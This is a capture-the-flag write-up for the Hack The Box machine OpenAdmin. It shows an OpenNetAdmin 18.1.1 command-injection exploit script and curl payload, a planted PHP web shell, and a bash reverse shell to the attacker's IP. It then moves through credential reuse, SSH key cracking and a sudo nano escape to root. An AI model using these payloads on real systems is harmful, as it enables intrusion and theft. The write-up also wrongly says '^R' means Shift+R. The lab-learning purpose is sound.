




# OpenAdmin: 10.10.10.171

## Hints

- To get a foothold, find three websites and scan them for potential access to another, fourth web app
- For code execution, look for an exploit for the fourth web app you found, version information is readily accessible
- You will need to progress through several accounts to finally get root
- Most of the privesc is about enumerating the machine, and most privesc automation tools are not as useful as manually enumeration and a good knowledge of MySQL, PHP, and Apache
- The final privesc to root is fun - GTFO for an easy win!

## nmap

Starting with the usual `nmap` scan. Interesting ports:

```none
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
```

## 80: Recon

We are greeted by the usual Apache landing page!


Since we found this default landing page - we can guess that there might be some other directories available on the webserver. Started a `gobuster` to try to find something interesting!

```none
gobuster dir -t 20 -u 10.10.10.171 -w ~/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -o gobuster_80_root_medium.log
```

Quite quickly we are presented with a few results, which provide some useful enumeration opportunities.

- `music/`
- `artwork/`
- `sierra/`

I had a brief look around each of the websites looking at the links, potential users, copyright notices, and web source code. The music endpoint (`http://10.10.10.171/music/`) loads a basic web page and looks like the most interesting out off all of the three.


Looking at the content of the page - there isn't much going on in the actual page content. However, the menu has some interesting links and some enumeration gets the following information.

- `Alan Smith` authors a couple of blog posts (`http://10.10.10.171/music/blog.html`)
- `contact@solmusic.com` email on the contact page (`http://10.10.10.171/music/contact.html`)
- Login button redirect to a new web app (`http://10.10.10.171/ona/`)

The most interesting is the `Login` option redirecting to an admin-panel-looking-thing.



Navigating to `Menu > ONA > About` we get some information about this web app. It is called "Open New Admin" and is version 18.1.1. Interestingly, the admin panel is reporting we are not running the latest version. So I started looking for some exploits against this specific version - as it seems it is out of date.

```none
└─$ searchsploit opennetadmin           
---------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                    |  Path
---------------------------------------------------------------------------------- ---------------------------------
OpenNetAdmin 13.03.01 - Remote Code Execution                                     | php/webapps/26682.txt
OpenNetAdmin 18.1.1 - Command Injection Exploit (Metasploit)                      | php/webapps/47772.rb
OpenNetAdmin 18.1.1 - Remote Code Execution                                       | php/webapps/47691.sh
---------------------------------------------------------------------------------- ---------------------------------
```

There are two exploits available for version 18.1.1 - coincidence?! They are both for RCE, one Metasploit, and one shell script. I picked the shell script and started digging deeper...

The exploit has an introduction with some links and information. The contents of the script are a `curl` command that seems to take two arguments - a `host` and a `cmd`. The full contents of the script are:

```none
#!/bin/bash

URL="${1}"
while true;do
 echo -n "$ "; read cmd
 curl --silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";${cmd};echo \"END\"&xajaxargs[]=ping" "${URL}" | sed -n -e '/BEGIN/,/END/ p' | tail -n +2 | head -n -1
done
```

Looking at the payload in the exploit - it looks like a request I noticed in Burp, where a similar POST request is used.



Grabbed the POST request information from the exploit and modified it a little. Looked like the exploit is trying to inject a command into one of the three `xajaxargs` parameters. 


```none
xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;id;&xajaxargs[]=ping
```

I modified the payload a little to remove the `BEGIN` and `END` values. From some testing it seems the original author added these values in to try to extract the result of the embedded command, using some `sed` and `head` command magic! It doesn't seem to work out of the box, but stripping down the command does work - and we can get code execution!


I rewrote the original `curl` command so that it would work, and extract the command output. All it seemed to need was a line break before `echo`ing `BEGIN`.

```none
curl --silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"\nBEGIN\";id;echo \"END\"&xajaxargs[]=ping" "10.10.10.171/ona/" | sed -n -e '/BEGIN/,/END/ p' | tail -n +2 | head -n -1
```

I thought I would write a simple Python version of the same exploit. I am trying to continue upskilling in web exploits and using the `requests` library - so thought it was a fun exercise. The script [`ona`](exploits/one.py) is available in the exploits folder of this writeup. I tried to make the exploit a little easier to run, and added in some `payload` options - so it was obvious where to put the payload.

Anyway, after getting code execution, I uploaded a simple PHP file to the webserver. I thought this would be a simple method to get some code execution of specific commands. Started by creating the PHP file.

```none
echo '<?php system($_REQUEST["cmd"]) ?>' > cmd.php
```

Started a Python HTTP server on my machine, and used `wget` on the target to fetch the file.

```none
└─$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.10.171 - - [04/Aug/2021 14:26:31] "GET /cmd.php HTTP/1.1" 200 -
```

Then browse to the location of the uploaded PHP file, using the following URL:

```none
http://10.10.10.171/ona/cmd.php?cmd=id
```

Intercepted a request to this page, send it to Repeater in Burp, and used a normal bash reverse shell to get a shell on the target.

```none
bash -c 'bash -i >& /dev/tcp/10.10.14.56/9001 0>&1'
```

Success!

```none
└─$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.10.171] 44978
bash: cannot set terminal process group (994): Inappropriate ioctl for device
bash: no job control in this shell
www-data@openadmin:/opt/ona/www$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@openadmin:/opt/ona/www$ 
```

We got a shell as `www-data`. Time to start some privesc and more enumeration!

## Privesc: `www-data` to `jimmy`

Ran some linpeas on the target and also started doing some manual enumeration. There was so much output in linpeas that it was hard to go through it all! Since there were 3 or so websites, there were lots of files. I started manually looking at the web files.

The first interesting finding was there was some indication of the web apps running. Looking at `/var/www` we can see `ona` (OpenNetAdmin) and an `internal` site - which we can't access.

```none
www-data@openadmin:/var/www$ ls -lisa
ls -lisa
total 16
282285 4 drwxr-xr-x  4 root     root     4096 Nov 22  2019 .
 49154 4 drwxr-xr-x 14 root     root     4096 Nov 21  2019 ..
282286 4 drwxr-xr-x  6 www-data www-data 4096 Nov 22  2019 html
286763 4 drwxrwx---  2 jimmy    internal 4096 Nov 23  2019 internal
282503 0 lrwxrwxrwx  1 www-data www-data   12 Nov 21  2019 ona -> /opt/ona/www
```

And in the `html` directory there are a bunch of other sites...

```none
www-data@openadmin:/var/www/html$ ls -lisa
ls -lisa
total 36
282286  4 drwxr-xr-x 6 www-data www-data  4096 Nov 22  2019 .
282285  4 drwxr-xr-x 4 root     root      4096 Nov 22  2019 ..
 40988  4 drwxrwxr-x 7 www-data www-data  4096 Nov 22  2019 artwork
282290 12 -rw-r--r-- 1 www-data www-data 10918 Nov 21  2019 index.html
394644  4 drwxrwxr-x 8 www-data www-data  4096 Nov 22  2019 marga
 40975  4 drwxrwxr-x 8 www-data www-data  4096 Nov 22  2019 music
282504  0 lrwxrwxrwx 1 www-data www-data    12 Nov 21  2019 ona -> /opt/ona/www
 40973  4 drwxrwxr-x 8 www-data www-data  4096 Nov 22  2019 sierra
```

All of these sites seem like decoys - and only have HTML, JS, and CSS. Since nothing major was returned by linpeas, and most of the other sites are boring - decided to poke around `ona` some more.

After a while, found some database credentials in the `/var/www/html/ona/local/config/` directory and the `database_settings.inc.php` file.

```none
$ona_contexts=array (
  'DEFAULT' => 
  array (
    'databases' => 
    array (
      0 => 
      array (
        'db_type' => 'mysqli',
        'db_host' => 'localhost',
        'db_login' => 'ona_sys',
        'db_passwd' => 'n1nj4W4rri0R!',
        'db_database' => 'ona_default',
        'db_debug' => false,
      ),
    ),
    'description' => 'Default data context',
    'context_color' => '#D3DBFF',
  ),
);
```

I tried logging into MySQL with the credentials...

```none
mysql -u ona_sys -p -D ona_default
```

But the user passwords I extracted from the database didn't seem to be of use.

```none
mysql> select * from users;
+----+----------+----------------------------------+-------+---------------------+---------------------+
| id | username | password                         | level | ctime               | atime               |
+----+----------+----------------------------------+-------+---------------------+---------------------+
|  1 | guest    | 098f6bcd4621d373cade4e832627b4f6 |     0 | 2021-08-04 03:41:17 | 2021-08-04 03:41:17 |
|  2 | admin    | 21232f297a57a5a743894a0e4a801fc3 |     0 | 2007-10-30 03:00:17 | 2007-12-02 22:10:26 |
+----+----------+----------------------------------+-------+---------------------+---------------------+
```

The password for `guest` was `test` and the password for `admin` was `admin`. But maybe the database password had been reused... And they were! The `n1nj4W4rri0R!` password worked for the user `jimmy`.

```none
└─$ ssh jimmy@10.10.10.171
jimmy@10.10.10.171's password: 
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-70-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed Aug  4 03:49:34 UTC 2021

  System load:  0.0               Processes:             122
  Usage of /:   49.6% of 7.81GB   Users logged in:       1
  Memory usage: 30%               IP address for ens160: 10.10.10.171
  Swap usage:   0%


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

41 packages can be updated.
12 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Wed Aug  4 02:45:36 2021 from 10.10.14.4
```

## Privesc: `jimmy` to `joanna`

Once I got access to `jimmy` I wanted to check out the `internal` website.

```none
jimmy@openadmin:/var/www/internal$ ll
total 20
drwxrwx--- 2 jimmy internal 4096 Nov 23  2019 .
drwxr-xr-x 4 root  root     4096 Nov 22  2019 ..
-rwxrwxr-x 1 jimmy internal 3229 Nov 22  2019 index.php
-rwxrwxr-x 1 jimmy internal  185 Nov 23  2019 logout.php
-rwxrwxr-x 1 jimmy internal  339 Nov 23  2019 main.php
```

There were a couple of PHP files on the website - but we couldn't access these externally. But there seemed to be an entry for them in Apache.

```none
jimmy@openadmin:/etc/apache2/sites-available$ ll
total 24
drwxr-xr-x 2 root root 4096 Nov 23  2019 ./
drwxr-xr-x 8 root root 4096 Nov 21  2019 ../
-rw-r--r-- 1 root root 6338 Jul 16  2019 default-ssl.conf
-rw-r--r-- 1 root root  303 Nov 23  2019 internal.conf
-rw-r--r-- 1 root root 1329 Nov 22  2019 openadmin.conf
```

And the `internal.conf` file contents.

```none
jimmy@openadmin:/etc/apache2/sites-available$ cat internal.conf 
Listen 127.0.0.1:52846

<VirtualHost 127.0.0.1:52846>
    ServerName internal.openadmin.htb
    DocumentRoot /var/www/internal

<IfModule mpm_itk_module>
AssignUserID joanna joanna
</IfModule>

    ErrorLog ${APACHE_LOG_DIR}/error.log
    CustomLog ${APACHE_LOG_DIR}/access.log combined

</VirtualHost>
```

We don't have the access to modify the file so we have to work with the current contents. Interestingly, the vhost is set to localhost, on port `52846`. And the most interesting part - this webserver runs as the `joanna` user.

What we need to do is create an SSH tunnel, so we can forward all traffic on our machine to the remote machine on port `52468`.

```none
ssh jimmy@10.10.10.171 -L 52846:localhost:52846
```

From here, when we visit `http://127.0.0.1:52846/` all the traffic is forwarded from localhost 52846 to `http://10.10.10.171:52846/`. This is very similar to forwarding requests from the command line through Burp proxy to check the requests - if you have done that before! If you haven't... you should! Makes it easy to debug HTTP requests.

From here, we are greeted with a login panel.



Lucky for us - we don't have to hack this login blind. The code is readily available to view as the user `jimmy`. After running `cat /var/www/internal/index.php` we can see the interesting block of code that handles the login.

```none
<h2>Enter Username and Password</h2>
<div class = "container form-signin">
    <h2 class="featurette-heading">Login Restricted.<span class="text-muted"></span></h2>
    <?php
        $msg = '';

        if (isset($_POST['login']) && !empty($_POST['username']) && !empty($_POST['password'])) {
        if ($_POST['username'] == 'jimmy' && hash('sha512',$_POST['password']) == '00e302ccdcf1c60b8ad50ea50cf72b939705f49f40f0dc658801b4680b7d758eebdc2e9f9ba8ba3ef8a8bb9a796d34ba2e856838ee9bdde852b8ec3b3a0523b1') {
            $_SESSION['username'] = 'jimmy';
            header("Location: /main.php");
        } else {
            $msg = 'Wrong username or password.';
        }
        }
    ?>
</div> <!-- /container -->
```

I did a SHA512 reverse hash lookup and discovered the password was: `Revealed`. Lucky I choose this method, as, out of interest sakes, I did a search in [SecLists passwords](https://github.com/danielmiessler/SecLists) for the same string, and `Revealed` was only in the Dutch wordlist?!

```none
└─$ grep -rn "Revealed" . 
./dutch_common_wordlist.txt:233361:Revealed
```

Note: After looking at this later we could probably do an SQL injection attack. But I did not go back to try it.

Anyway, after logging in - we get the SSH key of `joanna` presented to us. This was no surprise, as it was documented in the source code of the web app.



I tried SSHing to `joanna` but was greeted by the password prompt for the key. Makes sense, as the message says "Don't forget your ninja password". The password `jimmy` used did not work. So I decided to try crack it.

I have never tried to crack an SSH key, so this was an interesting experience. After some Googling, seemed like I needed the `ssh2john` program to get the hash from the SSH key.

```none
wget https://github.com/openwall/john/raw/bleeding-jumbo/run/ssh2john.py
```

Then run the Python program with the `id_rsa` key as an argument.

```none
python3 ssh2john.py id_rsa > id_rsa_hash
```

And we have the key hash! Time to try crack it using `john`.

```none
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa_hash 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
bloodninjas      (id_rsa)
1g 0:00:00:06 DONE (2021-08-04 16:19) 0.1434g/s 2057Kp/s 2057Kc/s 2057KC/s *7¡Vamos!
Session completed
```

And we can log in as `joanna` with the discovered password.

```none
└─$ ssh -i id_rsa joanna@10.10.10.171
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-70-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed Aug  4 04:21:11 UTC 2021

  System load:  0.0               Processes:             121
  Usage of /:   49.9% of 7.81GB   Users logged in:       1
  Memory usage: 30%               IP address for ens160: 10.10.10.171
  Swap usage:   0%


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

41 packages can be updated.
12 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Thu Jan  2 21:12:40 2020 from 10.10.14.3
joanna@openadmin:~$ id
uid=1001(joanna) gid=1001(joanna) groups=1001(joanna),1002(internal)
```

## Privesc: `joanna` to `root`

Given how much we have done so far - for an easy machine - I guessed the final privesc would be simple. Checked `sudo` configuration and was not disappointed!

```none
joanna@openadmin:~$ sudo -l
Matching Defaults entries for joanna on openadmin:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User joanna may run the following commands on openadmin:
    (ALL) NOPASSWD: /bin/nano /opt/priv
```

Started `nano` using `sudo`.

```none
sudo /bin/nano /opt/priv
```

As per the advice on [GTFObings on `nano`](https://gtfobins.github.io/gtfobins/nano/) we should be able to escape `nano` and get a shell as `root`. This is pretty easy - considering what we have done so far!

```none
^R^X
reset; sh 1>&0 2>&0
```

For those who don't know, `^R` means Shift + R. So press `Shift + R`, then press `Shift + X`, then enter the command to escape `nano` and get a shell.

```none
Command to execute: reset; sh 1>&0 2>&0# id                                                                         
uid=0(root) gid=0(root) groups=0(root)
# wc -c /root/root.txt
33 /root/root.txt
```

Done!

## Lessons Learned

- Manual enumeration can sometimes be king! This entire machine was achievable by enumeration of the services running on the box. Remember this for the future.
- Stick to the methodology. If tired, come back and try again later. Moving fast and changing multiple things at once never works!
- Stop re-writing exploits when they already work! Jokes! This is a good experience but takes a long time. You will not always have an hour spare!

## Useful Resources

- [HackTheBox - OpenAdmin by ippsec](https://www.youtube.com/watch?v=fdD-JTlkd3k)
- [HTB: OpenAdmin by 0xdf](https://0xdf.gitlab.io/2020/05/02/htb-openadmin.html)
